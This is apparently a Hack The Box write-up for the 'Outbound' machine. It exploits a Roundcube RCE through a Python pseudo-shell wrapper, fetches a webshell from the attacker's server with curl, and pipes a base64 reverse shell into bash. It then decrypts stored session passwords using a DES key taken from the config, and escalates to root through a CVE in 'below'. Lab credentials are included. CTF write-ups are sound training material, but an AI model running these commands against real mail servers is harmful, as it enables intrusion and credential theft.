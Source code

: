 Difficulty: Easy (I'd say closer to medium)

Port 22 and 80 open, so obviously just enum port 80, where you find mail.outbound.htb, so use the given creds to login.
Roundcube mail (the service) is vulnerable to this [exploit](https://github.com/hakaioffsec/CVE-2025-49113-exploit).

Also I used this script to get the shell (just copy this into a file named exploit.py in the same directory as the CVE PoC I linked).
```python
import os
import requests

url = "http://mail.outbound.htb/smiles.txt"

command = ""
while command != 'exit':
    command = input("command> ")

    if command == 'exit':
        break
    
    if command == 'clear':
        os.system('clear')
        continue

    shell_cmd = f"php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 \"{command} \""

    os.system(shell_cmd)
    res = requests.get(url)
    if not len(res.text):
        print("No response received")
    else:
        print(res.text)
else:
    print("bye")
```

Into this pseudo-shell just run `curl http://[your-server-address]/shell.php -o /var/www/html/roundcube/public_html/smiles.php` (i used my own php webshell here).

To get a revshell, base64 encode the payload and then do  `echo [base64-encoded-payload] | base64 -d | bash`, which will give you a shell.

Now you can read config.inc.php in the config/ file to get these creds:
1. `roundcube:RCDBPass2025` -> These are mysql creds
2. `$config['des_key'] = 'rcmail-!24ByteDESkey*Str';` -> we need this to decrypt the session data

This is the hard part, so we have the session data (from session table in mysql), base64 decode the password (from the serialized data, it will be base64 encoded, so decode it and then read) and then turn it into hex. This gives the triple DES bytes. Now from that take the first 8 bytes as the IV value and the DES key we got as the other key input in cyberchef. Use everything after the first 8 bytes as password. This will give the email login.

`jacob:595mO8DmwGeD` -> email login

`jacob:gY4Wr3a1evp4` -> password, just read the email after using the login creds above.

This gives ssh access and user.

On running `sudo -l` we can see /usr/bin/below can be run. It is vulnerable to this exploit:
https://github.com/BridgerAlderson/CVE-2025-27591-PoC/blob/main/exploit.py -> Use this for root access, literally just run it and do `su attacker`

https://labs.hackthebox.com/achievement/machine/1785577/672
